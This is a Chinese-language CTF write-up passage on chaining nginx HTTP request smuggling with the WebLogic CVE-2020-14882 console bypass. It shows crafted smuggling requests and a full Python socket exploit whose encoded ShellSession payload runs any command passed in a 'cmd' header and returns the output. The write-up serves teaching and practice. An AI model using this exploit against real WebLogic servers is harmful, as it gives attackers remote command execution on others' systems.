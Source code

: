 ```php
GET /a HTTP/1.1
Host: localhost
Content-Length: 56
GET /_hidden/index.html HTTP/1.1
Host: notlocalhost
```

那么nginx会把这两个请求都执行，这就会造成请求走私。可参考：<https://v0w.top/2020/12/20/HTTPsmuggling/#5-2-%EF%BC%88CVE-2020-12440%EF%BC%89Nginx-lt-1-8-0-%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81>

针对这道题目我们构造出如下请求包：

```php
GET /test HTTP/1.1
Host: node4.buuoj.cn:27230
Content-Length: 0
Transfer-Encoding: chunked

GET /console/login/LoginForm.jsp HTTP/1.1
Host: weblogic

```

响应包中包含了weblogic的版本信息：

```php
WebLogic Server Version: 12.2.1.4.0
```

版本正好契合CVE-2020-14882，我们直接拿socket去打就可以拿到flag。

### 最终exp

```php
//来源于https://www.lemonprefect.cn的博客
import socket

sSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sSocket.connect(("node4.buuoj.cn", 26319))
payload = b'''HEAD / HTTP/1.1\r\nHost: node4.buuoj.cn\r\n\r\nGET /console/css/%252e%252e%252fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt(); HTTP/1.1\r\nHost:weblogic\r\ncmd: /readflag\r\n\r\n'''
sSocket.send(payload)
sSocket.settimeout(2)
response = sSocket.recv(2147483647)
while len(response) > 0:
    print(response.decode())
    try:
        response = sSocket.recv(2147483647)
    except:
        break
sSocket.close()
```
